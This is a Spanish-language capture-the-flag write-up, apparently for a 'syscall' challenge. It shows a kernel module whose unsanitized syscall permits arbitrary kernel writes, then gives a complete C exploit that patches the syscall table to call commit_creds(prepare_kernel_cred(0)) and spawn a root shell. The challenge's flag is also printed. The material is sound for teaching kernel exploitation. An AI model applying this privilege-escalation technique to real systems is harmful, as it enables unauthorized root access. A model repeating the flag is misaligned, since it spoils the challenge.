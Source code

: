 # syscall

<img width="125" height="172" alt="syscall" src="https://github.com/user-attachments/assets/8aab7713-131d-4637-a907-03d46d0b9f78" />

``` C
// adding a new system call : sys_upper

#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/slab.h>
#include <linux/vmalloc.h>
#include <linux/mm.h>
#include <asm/unistd.h>
#include <asm/page.h>
#include <linux/syscalls.h>

#define SYS_CALL_TABLE          0x8000e348              // manually configure this address!!
#define NR_SYS_UNUSED           223

//Pointers to re-mapped writable pages
unsigned int** sct;

asmlinkage long sys_upper(char *in, char* out){
        int len = strlen(in);
        int i;
        for(i=0; i<len; i++){
                if(in[i]>=0x61 && in[i]<=0x7a){
                        out[i] = in[i] - 0x20;
                }
                else{
                        out[i] = in[i];
                }
        }
        return 0;
}

static int __init initmodule(void ){
        sct = (unsigned int**)SYS_CALL_TABLE;
        sct[NR_SYS_UNUSED] = sys_upper;
        printk("sys_upper(number : 223) is added\n");
        return 0;
}

static void __exit exitmodule(void ){
        return;
}

module_init( initmodule );
module_exit( exitmodule );
```

Nos meten en una Linux-ARM7 virtualizado de QEMU:
```
sys_upper(number : 223) is added
cttyhack: can't open '/dev/ttyS0': No such file or directory
sh: can't access tty; job control turned off
/ $ uname -a
Linux (none) 3.11.4 #13 SMP Fri Jul 11 00:48:31 PDT 2014 armv7l GNU/Linux
/ $ id
uid=1000 gid=1000 groups=1000
/ $ ls
bin         dev         lib         lost+found  proc        sbin        tmp
boot        etc         linuxrc     m.ko        root        sys         usr
/ $
```

`m.ko` es el modulo agregado por el autor con la syscall 223 `sys_upper`. Esta syscall no tiene sanitizacion de entrada y basicamente escribe el contenido de `in` en `out`, solo cambiando un rango de caracteres ascii (las minusculas):
``` C
    for(i=0; i<len; i++){
                if(in[i]>=0x61 && in[i]<=0x7a){
                        out[i] = in[i] - 0x20;
                }
                else{
                        out[i] = in[i];
                }
        }
```

## Corrompiendo SYSCALL_TABLE

LLamando a `commit_creds(prepare_kernel_cred(0))` se pueden ganar privilegios de administrador para el proceso actual:
- `prepare_kernel_cred(uint id)` devuelve un puntero a una estructura `cred` que contiene las credenciales para una nueva tarea. El parametro `0` es el ID de root.
- `commit_creds(struct cred *new)` actualiza las credenciales de la tarea actual con las nuevas credenciales proporcionadas. 

Con `proc/kallsyms` podemos observar los simbolos del kernel y sus direcciones de memoria. Por lo visto tenemos permiso de lectura:
```
/ $ ls -l /proc/kallsyms
-r--r--r--    1 0        0                0 Aug 29 22:49 /proc/kallsyms
```

La estrategia se resume en hallar dos punteros a syscalls en la `SYSCALL_TABLE` `sys_1` y `sys_2` que tomen solo un parametro tal que podamos reemplazar:
`sys_1` => `commit_creds`, `sys_2` => `prepare_kernel_cred` y entonces `sys_1(sys_2(0))`. Despues con maximos privilegios invocar una shell: `system("/bin/sh"`).

Lamentablemente `commit_creds` contiene el byte `0x6c`, asi que no podemos usar esta direccion directamente, pero podemos reemplazar este byte por `0x60` y en esa direccion escribir 12 bytes de instrucciones NOP como `mov reg,reg`.

## Exploit
``` C
#include <stdlib.h>
#include <unistd.h>

#define SYS_CALL_TABLE		0x8000e348
#define SYS_UPPER     		223
#define SYS_STIME     		25
#define SYS_TIME     		  13

#define PREPARE_KERNEL_CRED "\x24\xf9\x03\x80"
#define COMMIT_CREDS_MINUS_12 "\x60\xf5\x03\x80"

int main(){
  unsigned int** sct=(unsigned int**)SYS_CALL_TABLE;
   

   // Write in [commit_creds - 12] 12 bytes of some kind of NOP (mov r8,r8)
   syscall(SYS_UPPER,"\x08\x80\xa0\xe1\x08\x80\xa0\xe1\x08\x80\xa0\xe1",0x8003f560); 

   // Replace sys_stime with commit_creds -12
   syscall(SYS_UPPER,COMMIT_CREDS_MINUS_12,&sct[SYS_STIME]);

   // Replace sys_time with prepare_kernel_cred
   syscall(SYS_UPPER,PREPARE_KERNEL_CRED,&sct[SYS_TIME]);

   // Execute commit_creds(prepare_kernel_cred(0))
   syscall(SYS_STIME,syscall(SYS_TIME,0));

   // Shell
   system("/bin/sh");
   return 0;
}
```

`Must_san1tize_Us3r_p0int3r`





